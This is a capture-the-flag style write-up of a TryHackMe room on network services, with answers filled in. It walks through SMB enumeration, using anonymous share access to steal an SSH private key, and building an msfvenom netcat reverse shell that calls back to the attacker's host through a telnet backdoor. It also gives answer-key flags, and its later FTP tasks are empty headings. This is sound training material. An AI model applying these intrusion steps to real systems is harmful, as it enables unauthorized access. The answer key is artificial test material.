







# [Network Services](https://tryhackme.com/room/networkservices)

## Task 1 - Get Connected

Hello and welcome!

This room will explore common Network Service vulnerabilities and misconfigurations, but in order to do that, we'll need to do a few things first!

A basic knowledge of Linux, and how to navigate the Linux file system, is required for this room. If you think you'll need some help with this, try completing the 'Linux Fundamentals' Module (https://tryhackme.com/module/linux-fundamentals)

1. Connect to the TryHackMe OpenVPN Server (See https://tryhackme.com/access for help!)
2. Make sure you're sitting comfortably, and have a cup of Tea, Coffee or Water close!

Now, let's move on!

N.B. This is not a room on WiFi access hacking or hijacking, rather how to gain unauthorized access to a machine by exploiting network services. If you are interested in WiFi hacking, I suggest checking out WiFi Hacking 101 by NinjaJc01 (https://tryhackme.com/room/wifihacking101)

## Task 2 - Understanding SMB

**What is SMB?**

SMB - Server Message Block Protocol - is a client-server communication protocol used for sharing access to files, printers, serial ports and other resources on a network. [source](https://searchnetworking.techtarget.com/definition/Server-Message-Block-Protocol)

Servers make file systems and other resources (printers, named pipes, APIs) available to clients on the network. Client computers may have their own hard disks, but they also want access to the shared file systems and printers on the servers.

The SMB protocol is known as a response-request protocol, meaning that it transmits multiple messages between the client and server to establish a connection. Clients connect to servers using TCP/IP (actually NetBIOS over TCP/IP as specified in RFC1001 and RFC1002), NetBEUI or IPX/SPX.

**How does SMB work?**

Once they have established a connection, clients can then send commands (SMBs) to the server that allow them to access shares, open files, read and write files, and generally do all the sort of things that you want to do with a file system. However, in the case of SMB, these things are done over the network.

**What runs SMB?**

Microsoft Windows operating systems since Windows 95 have included client and server SMB protocol support. Samba, an open source server that supports the SMB protocol, was released for Unix systems.

### Answer the questions

* What does SMB stand for? 

	`Server Message Block`

* What type of protocol is SMB?

	`response-request`

* What do clients connect to servers using?

	`TCP/IP`

* What systems does Samba run on?

	`Unix`

## Task 3 - Enumerating SMB

**Lets Get Started**

Before we begin, make sure to deploy the room and give it some time to boot. Please be aware, this can take up to five minutes so be patient!

**Enumeration**

Enumeration is the process of gathering information on a target in order to find potential attack vectors and aid in exploitation.

This process is essential for an attack to be successful, as wasting time with exploits that either don't work or can crash the system can be a waste of energy. Enumeration can be used to gather usernames, passwords, network information, hostnames, application data, services, or any other information that may be valuable to an attacker.

**SMB**

Typically, there are SMB share drives on a server that can be connected to and used to view or transfer files. SMB can often be a great starting point for an attacker looking to discover sensitive information — you'd be surprised what is sometimes included on these shares.

**Port Scanning**

The first step of enumeration is to conduct a port scan, to find out as much information as you can about the services, applications, structure and operating system of the target machine.

If you haven't already looked at port scanning, I **recommend** checking out the Nmap room [here](https://tryhackme.com/room/furthernmap).

**Enum4Linux**

Enum4linux is a tool used to enumerate SMB shares on both Windows and Linux systems. It is basically a wrapper around the tools in the Samba package and makes it easy to quickly extract information from the target pertaining to SMB. It's installed by default on Parrot and Kali, however if you need to install it, you can do so from the official [github](https://github.com/portcullislabs/enum4linux).

The syntax of Enum4Linux is nice and simple: `"enum4linux [options] ip"`

|TAG|FUNCTION|
|---|--------|
|-U|get userlist|
|-M|get machine list|
|-N|get namelist dump (different from -U and-M)|
|-S|get sharelist|
|-P|get password policy information|
|-G|get group and member list|
|-a|all of the above (full basic enumeration)|

Now we understand our enumeration tools, let's get started!

### Answer the questions

* Conduct an **nmap** scan of your choosing, How many ports are open?

	`3`

	

* What ports is **SMB** running on?

	`139/445`

	

* Let's get started with Enum4Linux, conduct a full basic enumeration. For starters, what is the **workgroup** name?

	`WORKGROUP`

	

* What comes up as the **name** of the machine? 

	`POLOSMB`

	

* What operating system **version** is running?

	`6.1`

	

* What share sticks out as something we might want to investigate?

	`profiles`

	

## Task 4 - Exploiting SMB

**Types of SMB Exploit**

While there are vulnerabilities such as [CVE-2017-7494](https://www.cvedetails.com/cve/CVE-2017-7494/) that can allow remote code execution by exploiting SMB, you're more likely to encounter a situation where the best way into a system is due to misconfigurations in the system. In this case, we're going to be exploiting anonymous SMB share access- a common misconfiguration that can allow us to gain information that will lead to a shell.

**Method Breakdown**

So, from our enumeration stage, we know:

- The SMB share location  

- The name of an interesting SMB share

**SMBClient**

Because we're trying to access an SMB share, we need a client to access resources on servers. We will be using SMBClient because it's part of the default samba suite. While it is available by default on Kali and Parrot, if you do need to install it, you can find the documentation [here](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html).

We can remotely access the SMB share using the syntax:

`smbclient //[IP]/[SHARE]`

Followed by the tags:

-U `[name]` : to specify the user

-p `[port]` : to specify the port

**Got it? Okay, let's do this!**

### Answer the questions

* What would be the correct syntax to access an SMB share called "secret" as user "suit" on a machine with the IP 10.10.10.2 on the default port?

	`smbclient //10.10.10.2/secret -U suit -p 139`

Great! Now you've got a hang of the syntax, let's have a go at trying to exploit this vulnerability. You have a list of users, the name of the share (smb) and a suspected vulnerability. 

Lets see if our interesting share has been configured to allow anonymous access, I.E it doesn't require authentication to view the files. We can do this easily by:

- using the username "Anonymous"

- connecting to the share we found during the enumeration stage

- and not supplying a password.

* Does the share allow anonymous access? Y/N?

	`Y`

	

* Great! Have a look around for any interesting documents that could contain valuable information. Who can we assume this profile folder belongs to? 

	`John Cactus`

	List file

	

	Open file

	

* What service has been configured to allow him to work from home?

	`ssh`

* Okay! Now we know this, what directory on the share should we look in?

	`.ssh`

* This directory contains authentication keys that allow a user to authenticate themselves on, and then access, a server. Which of these keys is most useful to us?

	`id_rsa`

	

Download this file to your local machine, and change the permissions to "600" using "chmod 600 `[file]`".

Now, use the information you have already gathered to work out the username of the account. Then, use the service and key to log-in to the server.

* What is the smb.txt flag?

	`THM{smb_is_fun_eh?}`

	Find username access

	

	Username 

	

	Get the file

	

## Task 5 - Understanding Telnet

**What is Telnet?**

Telnet is an application protocol which allows you, with the use of a telnet client, to connect to and execute commands on a remote machine that's hosting a telnet server.

The telnet client will establish a connection with the server. The client will then become a virtual terminal- allowing you to interact with the remote host.

**Replacement**

Telnet sends all messages in clear text and has no specific security mechanisms. Thus, in many applications and services, Telnet has been replaced by SSH in most implementations.
 
**How does Telnet work?**

The user connects to the server by using the Telnet protocol, which means entering "telnet" into a command prompt. The user then executes commands on the server by using specific Telnet commands in the Telnet prompt. You can connect to a telnet server with the following syntax: `telnet [ip] [port]`

### Answer the questions

* What is Telnet?

	`application protocol`

* What has slowly replaced Telnet?

	`ssh`

* How would you connect to a Telnet server with the IP 10.10.10.3 on port 23?

	`telnet 10.10.10.3 23`

* The lack of what, means that all Telnet communication is in plaintext?
	
	`encryption`

## Task 6 - Enumerating Telnet

**Lets Get Started**

Before we begin, make sure to deploy the room and give it some time to boot. Please be aware, this can take up to five minutes so be patient!

**Enumeration**

We've already seen how key enumeration can be in exploiting a misconfigured network service. However, vulnerabilities that could be potentially trivial to exploit don't always jump out at us. For that reason, especially when it comes to enumerating network services, we need to be thorough in our method. 

**Port Scanning**

Let's start out the same way we usually do, a port scan, to find out as much information as we can about the services, applications, structure and operating system of the target machine. Scan the machine with **nmap**.

**Output**

Let's see what's going on on the target server...

### Answer the questions

* How many ports are open on the target machine?

	`1`

	

* What port is this?

	`8012`

* This port is unassigned, but still lists the protocol it's using, what protocol is this?

	`tcp`

* Now re-run the nmap scan, without the -p- tag, how many ports show up as open?

	`0`

Here, we see that by assigning telnet to a non-standard port, it is not part of the common ports list, or top 1000 ports, that nmap scans. It's important to try every angle when enumerating, as the information you gather here will inform your exploitation stage.

* Based on the title returned to us, what do we think this port could be used for?

	`a backdoor`

	

* Who could it belong to? Gathering possible usernames is an important step in enumeration.

	``

Always keep a note of information you find during your enumeration stage, so you can refer back to it when you move on to try exploits.

## Task 7 - Exploiting Telnet

**Types of Telnet Exploit**

Telnet, being a protocol, is in and of itself insecure for the reasons we talked about earlier. It lacks encryption, so sends all communication over plaintext, and for the most part has poor access control. There are CVE's for Telnet client and server systems, however, so when exploiting you can check for those on:

* https://www.cvedetails.com/
* https://cve.mitre.org/

A CVE, short for Common Vulnerabilities and Exposures, is a list of publicly disclosed computer security flaws. When someone refers to a CVE, they usually mean the CVE ID number assigned to a security flaw.

However, you're far more likely to find a misconfiguration in how telnet has been configured or is operating that will allow you to exploit it.

**Method Breakdown**

So, from our enumeration stage, we know:

- There is a poorly hidden telnet service running on this machine
- The service itself is marked "backdoor"
- We have possible username of "Skidy" implicated

Using this information, let's try accessing this telnet port, and using that as a foothold to get a full reverse shell on the machine!

**Connecting to Telnet**

You can connect to a telnet server with the following syntax:

`telnet [ip] [port]`

We're going to need to keep this in mind as we try and exploit this machine.

**What is a Reverse Shell?**

A **"shell"** can simply be described as a piece of code or program which can be used to gain code or command execution on a device.

A reverse shell is a type of shell in which the target machine communicates back to the attacking machine.

The attacking machine has a listening port, on which it receives the connection, resulting in code or command execution being achieved.

### Answer the questions

Okay, let's try and connect to this telnet port! If you get stuck, have a look at the syntax for connecting outlined above.

* Great! It's an open telnet connection! What welcome message do we receive? 

	`SKIDY'S BACKDOOR.`

* Let's try executing some commands, do we get a return on any input we enter into the telnet session? (Y/N)

	`N`

	

Hmm... that's strange. Let's check to see if what we're typing is being executed as a system command. 

Start a tcpdump listener on your local machine.

If using your own machine with the OpenVPN connection, use:	

`sudo tcpdump ip proto \\icmp -i tun0`

If using the AttackBox, use:

`sudo tcpdump ip proto \\icmp -i ens5`

This starts a tcpdump listener, specifically listening for ICMP traffic, which pings operate on.

* Now, use the command `"ping [local THM ip] -c 1"` through the telnet session to see if we're able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N)

	`Y`

	

Great! This means that we are able to execute system commands AND that we are able to reach our local machine. Now let's have some fun!

We're going to generate a reverse shell payload using msfvenom. This will generate and encode a netcat reverse shell for us. Here's our syntax:

**`"msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R"`**

_-p = payload  
lhost = our local host IP address (this is your machine's IP address)  
lport = the port to listen on (this is the port on your machine)  
R = export the payload in raw format_

* What word does the generated payload start with?

	`mkfifo`

	

Perfect. We're nearly there. Now all we need to do is start a netcat listener on our local machine. We do this using:

`"nc -lvp [listening port]"`

* What would the command look like for the listening port we selected in our payload?

	`nc -lvp 4444`

	

Great! Now that's running, we need to copy and paste our msfvenom payload into the telnet session and run it as a command. Hopefully- this will give us a shell on the target machine!

* Success! What is the contents of flag.txt?

	``

## Task 8 - Understanding FTP

## Task 9 - Enumerating FTP

## Task 10 - Exploiting FTP

## Task 11 - Expanding Your Knowledge
